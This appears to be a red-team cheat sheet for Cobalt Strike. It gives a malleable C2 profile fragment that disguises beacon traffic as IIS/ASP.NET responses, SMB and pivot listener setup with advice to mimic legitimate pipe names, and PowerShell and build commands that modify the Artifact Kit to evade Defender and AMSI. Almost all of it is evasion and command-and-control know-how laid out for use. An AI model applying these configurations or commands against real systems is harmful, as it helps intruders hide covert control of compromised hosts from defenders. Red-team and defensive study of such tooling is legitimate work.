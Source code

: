 	}

	server {
		# customize server indicators
		header "Content-Type" "text/plain";
		header "Server" "Microsoft IIS/10.0";	
		header "X-Powered-By" "ASP.NET";	

		output{
			netbios;
			prepend "<!DOCTYPE html><html><head><title></title></head><body><h1>";
			append "</h1></body></html>";
			print;
		}
	}
}

http-stager {

	server {
		header "Content-Type" "application/octet-stream";
		header "Server" "Microsoft IIS/10.0";	
		header "X-Powered-By" "ASP.NET";
	}
}

Setup CS Listeners

    Setting up the SMB Listener
        Default pipe name is quite well signatured.  A good strategy is to emulate names known to be used by common applications or Windows itself.
        Use PS C:\> ls \\.\pipe\ to list all currently listening pipes for inspiration.
            TSVCPIPE-4036c92b-65ae-4601-1337-57f7b24a0c57

    Setting up Pivot Listener
        Beacon_reverse_tcp and Beacon_Bind_Tcp both are different type of Listeners.
        Pivot Listeners can only be created from a beacon.
        Steps to create a Pivot Listener
            Click on the Beacon Host
            Select Pivoting > Listener and Give it a Name and leave other options untouched (Modify if required)
            Now in the Beacon Host machine you can check that is Beacon Process has a opened Port
                netstat -anop tcp | findstr <PORT> where port is the pivot listener port
            Now go to the payloads and generate any payload and select the beacon_reverse_tcp as payload listener.

Defender Antivirus / AMSI

# Modifying Artifact Kit
# Modify script_template.cna and replace all instances of rundll32.exe with dllhost.exe
PS > $template_path="C:\Tools\cobaltstrike\arsenal-kit\kits\artifact\script_template.cna" ; (Get-Content -Path $template_path)  -replace 'rundll32.exe' ,  'dllhost.exe' | Set-Content -Path $template_path
# Compile the Artifact kit (From WSL in Attacker windows Machine)
$ cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact
$ ./build.sh pipe VirtualAlloc 296948 5 false false none /mnt/c/Tools/cobaltstrike/artifacts
# Other Techniques are : mailslot, peek , pipe, readfile, readfile-v2